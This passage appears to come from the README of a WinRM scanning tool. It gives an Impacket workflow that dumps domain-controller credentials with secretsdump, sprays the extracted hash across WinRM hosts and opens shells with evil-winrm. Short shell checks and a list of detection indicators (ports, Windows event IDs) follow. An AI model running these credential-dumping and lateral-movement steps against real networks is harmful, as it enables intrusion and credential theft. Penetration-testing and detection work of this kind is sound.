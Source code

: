 ### With Impacket
```bash
# 1. Extract creds with secretsdump
secretsdump.py DOMAIN/user:pass@dc.corp.local

# 2. Test on WinRM hosts
./winrmseek.py -f servers.txt -t -u administrator -p extracted_hash

# 3. Access via evil-winrm
evil-winrm -i TARGET -u administrator -p extracted_pass
```

## Quick Checks

```bash
# Count WinRM hosts found
wc -l winrmlist.txt

# Count authenticated hosts
wc -l winrm_access.txt

# Show HTTP vs HTTPS
grep "(HTTP)" winrmlist.txt | wc -l
grep "(HTTPS)" winrmlist.txt | wc -l

# Extract just IP addresses
cut -d: -f1 winrmlist.txt

# Check for specific subnet
grep "192.168.1." winrm_access.txt
```

## Detection Indicators

### Network
- Multiple connections to ports 5985/5986
- Connection attempts from unusual sources
- High volume authentication attempts

### Windows Events
- **Event 4624**: Successful logon (Type 3)
- **Event 4625**: Failed logon
- **Event 91**: WinRM connection accepted
- **Event 142**: New WinRM session

### PowerShell Events
- **Event 4103**: Module logging
- **Event 4104**: Script block logging

## Defense Quick Tips
